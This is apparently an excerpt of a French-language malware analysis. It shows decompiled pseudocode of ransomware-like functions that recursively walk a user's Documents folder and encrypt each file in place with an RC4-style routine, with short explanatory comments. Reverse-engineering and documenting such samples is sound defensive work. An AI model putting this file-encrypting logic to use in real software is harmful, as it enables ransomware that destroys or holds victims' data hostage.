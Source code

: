 ```c
292c71b1e              if (strcmp(_Str1: &directory->d_name, _Str2: &_".") != 0 && strcmp(_Str1: &directory->d_name, _Str2: &_"..") != 0)
292c71b5d                  char (* var_458_1)[0x104] = &directory->d_name
292c71b74                  void _Filename
292c71b74                  snprintf(&_Filename, 0x400, "%s/%s", arg1)
292c71b84                  void _Stat
292c71b84                  stat(_Filename: &_Filename, _Stat: &_Stat)
292c71b9a                  int16_t var_442
292c71b9a                  if ((zx.d(var_442) & 0xf000) == 0x8000)
292c71bad                      printf("File: %s\n", &_Filename)
276071e09                      encode_file(&_Filename, key, key_len)
292c71b9a                  else if ((zx.d(var_442) & 0xf000) == 0x4000)
276071e3a                      cipher_files(&_Filename, key, key_len: zx.q(key_len))
292c71c19          rax_1 = closedir(dirp)
292c71c27      return rax_1
```

Fonctionnement:
* itère sur tous les dossiers et sous-dossiers du dossier Document de l'utilisateur
* appelle la fonction encode_files sur tous les fichiers avec comme argument le nom de fichier, la clé et la longueur de la clé

```c
276071b1b  int64_t encode_file(char* filename, void* key, int32_t key_len)

276071b51      FILE* file_p = fopen(_FileName: filename, _Mode: &rb)
276071b65      int64_t rax_1
276071b65      if (file_p == 0)
276071b71          rax_1 = perror(_ErrorMessage: "Failed to open file")
276071b65      else
276071b90          fseek(_Stream: file_p, _Offset: 0, _Origin: 2)
276071b9f          int32_t data_len = ftell(_Stream: file_p)
276071bbf          fseek(_Stream: file_p, _Offset: 0, _Origin: 0)
276071bcf          void* data = malloc(_Size: sx.q(data_len))
276071be3          if (data != 0)
276071c2d              fread(_Buffer: data, _ElementSize: 1, _ElementCount: sx.q(data_len), _Stream: file_p)
276071c49              void S
276071c49              init(key, &S, key_len)
276071c65              crypt(data, data_len, &S)
276071c7f              fseek(_Stream: file_p, _Offset: 0, _Origin: 0)
276071ca9              fwrite(_Buffer: data, _ElementSize: 1, _ElementCount: sx.q(data_len), _Stream: file_p)
276071cb8              fflush(_Stream: file_p)
276071cc7              free(_Block: data)
276071cd6              rax_1 = fclose(_Stream: file_p)
276071be3          else
276071bef              perror(_ErrorMessage: "Failed to allocate memory")
276071bfe              rax_1 = fclose(_Stream: file_p)
276071ce4      return rax_1
```
